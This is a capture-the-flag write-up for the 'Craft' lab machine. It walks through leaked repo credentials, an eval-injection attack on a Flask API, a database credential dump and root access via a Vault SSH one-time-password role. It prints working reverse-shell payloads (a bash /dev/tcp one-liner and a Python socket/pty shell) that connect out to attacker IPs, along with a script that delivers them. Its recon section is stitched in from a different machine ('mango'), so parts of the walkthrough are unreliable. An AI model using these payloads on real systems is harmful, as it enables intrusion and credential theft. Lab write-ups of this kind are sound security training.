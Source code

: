 ```yaml
---
title: Craft
tags: 
- writeups
---
```


![](https://i.imgur.com/DOJzRQ6.png)

## Recon


After running `nmap` we get:
```bash
# Nmap 7.80 scan initiated Fri Nov 22 09:31:03 2019 as: nmap -sC -sV -oA mango 10.10.10.162
Nmap scan report for 10.10.10.162
Host is up (0.14s latency).
Not shown: 997 closed ports
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 a8:8f:d9:6f:a6:e4:ee:56:e3:ef:54:54:6d:56:0c:f5 (RSA)
|   256 6a:1c:ba:89:1e:b0:57:2f:fe:63:e1:61:72:89:b4:cf (ECDSA)
|_  256 90:70:fb:6f:38:ae:dc:3b:0b:31:68:64:b0:4e:7d:c9 (ED25519)
80/tcp  open  http     Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: 403 Forbidden
443/tcp open  ssl/http Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Mango | Search Base
| ssl-cert: Subject: commonName=staging-order.mango.htb/organizationName=Mango Prv Ltd./stateOrProvinceName=None/countryName=IN
| Not valid before: 2019-09-27T14:21:19
|_Not valid after:  2020-09-26T14:21:19
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Changing hosts file

By looking at the source code we can see gogs and api subdomains


So I just modified the  /etc/hosts to the following in order to access them.
```
10.10.10.110    craft.htb gogs.craft.htb api.craft.htb
```

### Gogs page
![](https://i.imgur.com/wDN37yi.png)


By a simple Google search we find out that [Gogs](https://gogs.io/) is a somewhat widely used git service.

Exploring the Craft repo we quickly find that there was an issue and a "fix" was implemented:
![](https://i.imgur.com/eAIzGds.png)

By simply looking at the code we can easily identify where the vulnerability is. That is, passing user defined input directly into the eval function. 

We can also see that an API is used in the test file, so let's take a look at it as well.

### API page
We are presented with this once the page loads:
![](https://i.imgur.com/4cdaJZf.png)

So as you can see we can login ( therefore getting a token ), check the validity of the token and delete,update,create,get brews. However we can't interact with it since we don't have any credentials in order to get a token...

But wait, let's take a closer look at those 2 commits from before. 

![](https://i.imgur.com/LjZ4X8U.png)

OH, there you go, credentials found in the source code. Very bad practice indeed :))

## Exploiting eval
Now that we have the credentials needed to get a token, we need to think of a way to exploit the eval function. Wel... that's easy we just need to do this:

```python
import requests
import json
import urllib3

urllib3.disable_warnings()

url = "https://api.craft.htb/api/"
s = requests.Session()
r = s.get(url + "auth/login", auth=('dinesh', '4aUh0A8PbVJxgd'), verify=False)
token = json.loads(r.text)['token']
print(token)

data = {
    "abv"       : "__import__('os').system('bash -i >& /dev/tcp/10.10.15.136/7070 0>&1')#",
    "name"      : "test",
    "brewer"    : "test",
    "style"     : "test"
}
data = json.dumps(data)

headers = {
    'X-Craft-API-Token': token,
    'Content-Type': 'application/json'
}
r = s.post(url + "brew/", headers=headers, data=data)
print(r.text)
```

And start our listener:

```bash
nc -nvlp 7070
```

Execute it and... Nothing. But it sohuld work right?

Well that's what I thought in the first place as well, but after a lot of thinking, poking and coffe I found out that I was pretty restricted, so I said fuck it. And build the payload from scratch with the things I knew would work. 

Finally I've ended up with this:
```python
eval(compile("""for x in range(1):\n import socket,subprocess, os\n s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)\n s.connect(("10.10.15.200", 7070))\n os.dup2(s.fileno(),0)\n os.dup2(s.fileno(),1)\n os.dup2(s.fileno(),2)\n import pty\n pty.spawn("/bin/sh")""","","single"))
```

After running the same script again, but with this payload I've got a shell.  Hooray!!

## Escaping the jail
I run `whoami` and I'm root. Uhmmm.... That's pretty strange, but ok let's take the root.txt
```bash
cat: /root/root.txt: No such file or directory
```

At this point I was confused, I thought that I gained access to a box that I wasn't supposed to, but that couldn't happen. Thus, I took a deeper look and found out that I was in a jail. However, I was having access to a file that I was previously interested in, but couldn't find it in the gogs page. That file being *`settings.py`*

So I just saw it in the directory I was currently in and took a look at it:

```python
# Flask settings
FLASK_SERVER_NAME = 'api.craft.htb'
FLASK_DEBUG = False  # Do not use debug mode in production

# Flask-Restplus settings
RESTPLUS_SWAGGER_UI_DOC_EXPANSION = 'list'
RESTPLUS_VALIDATE = True
RESTPLUS_MASK_SWAGGER = False
RESTPLUS_ERROR_404_HELP = False
CRAFT_API_SECRET = 'hz66OCkDtv8G6D'

# database
MYSQL_DATABASE_USER = 'craft'
MYSQL_DATABASE_PASSWORD = 'qLGockJ6G2J75O'
MYSQL_DATABASE_DB = 'craft'
MYSQL_DATABASE_HOST = 'db'
SQLALCHEMY_TRACK_MODIFICATIONS = False
```

Another credentials, ok... but what can we do with them? Well, he is using them to connect to the db so let's do the same:
```python
#!/usr/bin/env python

import pymysql
from craft_api import settings

# test connection to mysql database

connection = pymysql.connect(host='db',
                             user='craft',
                             password='qLGockJ6G2J75O',
                             db='craft',
                             cursorclass=pymysql.cursors.DictCursor)

try:
    with connection.cursor() as cursor:
        sql = "select * from users"
        cursor.execute(sql)
        result = cursor.fetchall()
        for i in range(len(result)):
            print(result[i])

finally:
    connection.close()
```

And we get:

```
{'id': 1, 'username': 'dinesh', 'password': '4aUh0A8PbVJxgd'}
{'id': 4, 'username': 'ebachman', 'password': 'llJ77D8QFkLPQB'}
{'id': 5, 'username': 'gilfoyle', 'password': 'ZEU3N8WNM2rh4T'}
```

Nice we've now got the credentials for every user.
Now what?

At this point I thought to SSH with the found credentials, but it didn't work. So after getting into some really deep rabbit holes I've decided to try to connect to the Gogs page with the new secrets as a last hope.

And I've got in with the `gilfoyle` user, prompted with this:
![](https://i.imgur.com/Zwo1dtQ.png)

> **Note**: Don't overcomplicate things, work with what you have and exhaust every possibility before moving on

I've instantly looked at the `.ssh` folder and found the private key and therefore got user. 

## Getting root

Once I've got user I immediatly went back to the new repo to have a deeper look into it, since I learned my lesson from the previous incident.

After looking through almost everything, the `vault/secrets.sh` popped as the most interesting to have a look at:
```bash
#!/bin/bash
# set up vault secrets backend
vault secrets enable ssh

vault write ssh/roles/root_otp \
        key_type=otp \
        default_user=root \
        cidr_list=0.0.0.0/0
```

With the help from Google I've found [this](https://www.vaultproject.io/docs/secrets/ssh/one-time-ssh-passwords.html). I've just followed the article:

```bash
vault write ssh/creds/otp_key_role ip=10.10.10.110
```

Got the otp and used it to connect through SSH, since root was allowed to login.


## See Also
- [[write-ups/HTB]]
